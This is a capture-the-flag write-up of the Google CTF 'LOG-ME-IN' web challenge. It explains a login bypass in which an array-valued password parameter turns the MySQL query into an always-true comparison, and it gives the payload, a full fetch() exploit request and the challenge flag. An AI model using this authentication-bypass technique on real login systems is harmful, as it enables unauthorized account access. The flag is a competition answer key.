 # LOG-ME-IN
*Solution and write-up by team [Kalmarunionen](https://capturetheflag.withgoogle.com/scoreboard/kalmarunionen).*

This challenge exploits the fact that we can send an array which when parsed makes the MySQL server execute a query similar to the following:
```
SELECT * FROM users WHERE username='michelle' AND password=`password`='1'
``` 

Hence payload for the request is simply: `username=michelle&password[password]=1&csrf=`

Exploit:
```
await fetch("https://log-me-in.web.ctfcompetition.com/login", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
    "referrer": "https://log-me-in.web.ctfcompetition.com/login",
    "body": "username=michelle&password[password]=1&csrf=",
    "method": "POST",
    "mode": "cors"
});
```

After logging in, it is easy to just go and grab the flag.

Flag: `CTF{a-premium-effort-deserves-a-premium-flag}`
